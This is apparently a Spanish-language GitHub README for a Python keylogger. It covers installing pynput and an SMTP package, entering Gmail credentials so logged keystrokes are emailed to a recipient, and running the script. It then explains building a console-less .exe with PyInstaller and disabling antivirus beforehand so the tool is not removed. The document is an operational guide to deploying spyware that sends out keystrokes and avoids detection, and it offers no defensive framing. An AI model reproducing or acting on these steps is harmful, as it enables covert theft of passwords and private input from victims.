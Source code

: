 # 📌 Instalación de Dependencias en Python

Antes de ejecutar el keylogger, asegúrate de instalar las bibliotecas necesarias.

## 📌 Requisitos

🔹 Python 3.x instalado en tu sistema.
🔹 Conexión a Internet para descargar las dependencias.

## 🚀 Instalación de Dependencias

### 1️⃣ Instalar `pynput` para Captura de Teclado

El módulo `pynput` permite registrar las teclas presionadas en el sistema. Instálalo con:

```bash
pip install pynput
```

### 2️⃣ Instalar `smtplib` y `email` para Envío de Correos

El módulo `smtplib` ya está incluido en Python, pero `email` se usa para estructurar los mensajes de correo. Se recomienda actualizar `email` con:

```bash
pip install secure-smtplib
```

### 3️⃣ Verificar Instalación

Después de instalar las dependencias, verifica que se hayan instalado correctamente ejecutando:

## ✉️ Configuración del Correo

Abre el archivo y reemplaza los siguientes valores con tu información:

```python
mensaje["From"] = "tucorreo@gmail.com"
mensaje["To"] = "destinatario@gmail.com"
server.login("tucorreo@gmail.com", "tu_contraseña")
server.sendmail("tucorreo@gmail.com", "destinatario@gmail.com", mensaje.as_string().encode('utf-8'))
```

🔹 **Usa una contraseña de aplicación en lugar de tu contraseña real para mayor seguridad.**

## ▶️ Ejecutar el Keylogger

Para iniciar el keylogger, ejecuta:

```bash
python keylogger.py
```

📌 **Presiona `F11` para enviar el registro por correo o `ESC` para salir.**


```bash
pip list | grep -E "pynput|smtplib|email"
```

Si todo está bien, ya puedes ejecutar el script sin problemas. 🚀

# 🛠️ Crear un Archivo Ejecutable (.exe) con PyInstaller

Para convertir el script en un archivo ejecutable `.exe`, es necesario utilizar `pyinstaller`. Antes de proceder, **desactiva tu antivirus**, ya que podría detectar el keylogger como una amenaza y eliminarlo.

🔹 Instalar pyinstaller

```bash
pip install pyinstaller
```

### 🚨 Desactivar Antivirus

🔹 Desactiva temporalmente la protección en tiempo real de tu antivirus antes de ejecutar el siguiente comando puede saltar un error asi.

![Desactivar Antivirus](./keylogger_antivirus.png)

### 🔹 Generar el Archivo .exe

Ejecuta el siguiente comando en la terminal dentro de la carpeta donde se encuentra `KeyLogger_Mail.py`:

```bash
pyinstaller --onefile --noconsole keylogger.py
